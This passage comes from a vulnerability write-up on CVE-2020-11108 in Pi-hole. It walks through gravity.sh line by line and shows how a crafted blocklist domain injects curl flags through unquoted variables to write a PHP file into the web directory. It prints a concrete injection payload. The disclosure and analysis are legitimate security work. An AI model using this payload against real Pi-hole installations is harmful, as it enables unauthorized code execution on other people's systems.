 <p>This leads us to look into the two parameters which are not encased in quotes. And ultimately there are two ways to inject into them.</p>

<p>First we will look at heisenbergCompensator. On line <a href="https://github.com/pi-hole/pi-hole/blob/9e490775ff3b20f378acc9db7cec2ae6023fff7f/gravity.sh#L238">238</a> of gravity.sh heisenbergCompensator is set if the saveLocation variable is a valid file. If it is valid/readable, the saveLocation variable will be used to construct the heisenbergCompensator. This is set in the previous <a href="https://github.com/pi-hole/pi-hole/blob/9e490775ff3b20f378acc9db7cec2ae6023fff7f/gravity.sh#L205">function</a> (gravity_SetDownloadOptions) and is constructed from several variables.</p>

<center><code style="overflow-wrap: break-word">saveLocation="${piholeDir}/list.${i}.${domain}.${domainsExtension}"</code></center><br>

<p>Because we control the input we can potentially create a domain with spaces and additional flags. This should not cause a problem for the file name, and those spaces will allow us to inject our own flags for the curl command. To exploit this, we use the following payload.</p>

<center><code>http://192.168.122.1#" -o fun.php -d "</code></center><br>

<p>This domain will be parsed in such a way that the double quotes are extracted. Thus at the time of the curl the variables are such that heisenbergCompensator = <code>-z /etc/pihole/list.0.192.168.122.1# -o fun.php -d .domains</code>.</p>

<p>Now as you’ll recall the heisenbergCompensator variable is set AFTER it validates a file is there. The good news for us was that updating gravity one time will be enough to write the file as shown below.</p>

<center><img src="/images/blog/cve-2020-11108-pihole-rce/9.png" /></center><br>

<p>The only caveat is that we must respond with a 200 OK to ensure the file is written. This is required based on line <a href="https://github.com/pi-hole/pi-hole/blob/9e490775ff3b20f378acc9db7cec2ae6023fff7f/gravity.sh#L290">290</a>.</p>

<p>The <code>-d</code> flag is a throw away to handle the extra data that is appended. The second time we update Gravity, the curl request will include our injected flags and write our payload to the web directory.</p>

<p>You may be wondering if this could be exploited to overwrite an SSH config, or /etc/shadow or some other file. Unfortunately I could not find a way to write to any other directory other than the web one. As a part of the back end parsing, any '/' characters are filtered out via a regex. I spent a not insignificant amount of time trying to find ways around this but had no luck (If you do find a way please let me know).</p>

<p>That takes care of heisenbergCompensator, but what about cmd_ext? The bad news is that this flag is only set if <a href="https://docs.pi-hole.net/ftldns/blockingmode/">BLOCKINGMODE</a> is set to <code>NXDOMAIN</code>. While this is a valid configuration, and supported by the developers it is not the default shipped with Pi-hole.</p>

<p>If it is set however, exploitation actually becomes a bit easier than the previous method. cmd_ext is defined at line <a href=":ghttps://github.com/pi-hole/pi-hole/blob/9e490775ff3b20f378acc9db7cec2ae6023fff7f/gravity.sh#L274">274</a> and is constructed as follows.</p>

<center><code>cmd_ext="--resolve $domain:$port:$ip"</code></center><br>

<p>Thus, if we can use the same payload we constructed earlier to inject into the domain. The spaces introduced will allow us to inject our flags, and we append the <code>-d</code> flag to deal with the remaining data meant for the resolve (specifically the ':80:').</p>
